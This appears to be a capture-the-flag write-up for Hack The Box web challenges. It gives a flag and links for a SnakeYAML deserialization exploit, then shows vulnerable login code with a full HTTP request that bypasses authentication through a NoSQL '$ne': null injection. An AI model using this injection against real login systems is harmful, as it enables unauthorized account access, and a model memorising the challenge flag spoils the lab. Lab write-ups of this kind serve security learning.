 ![image](https://hackmd.io/_uploads/rkHoTqG_C.png)

![image](https://hackmd.io/_uploads/B1QhacMdR.png)

flag: `HTB{sn4k3_y4ml_d3s3r14lized_ftw!}`

link: https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/
poc: https://github.com/artsploit/yaml-payload/tree/master

## Lazy Ballot Couch [No sqli]

```
 async loginUser(username, password) {
        const options = {
            selector: {
                username: username,
                password: password,
            },
        };

        const resp = await this.userdb.find(options);
        if (resp.docs.length) return true;

        return false;
    }
```

```
POST /api/login HTTP/1.1
Host: 94.237.59.199:46446
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.199:46446/login
Content-Type: application/json
Content-Length: 59
Origin: http://94.237.59.199:46446
Connection: close
Cookie: connect.sid=s%3AFEy85rDbjlaB98jjRZg_434QpKF04wbu.YsZ6wi1WZit6HUvxSeo92fkdBT2KekP8X80%2FbprxZYA
Priority: u=0

{"username":{
"$ne": null
},"password":{
"$ne": null
}}
```

![image](https://hackmd.io/_uploads/ryi5fsfu0.png)


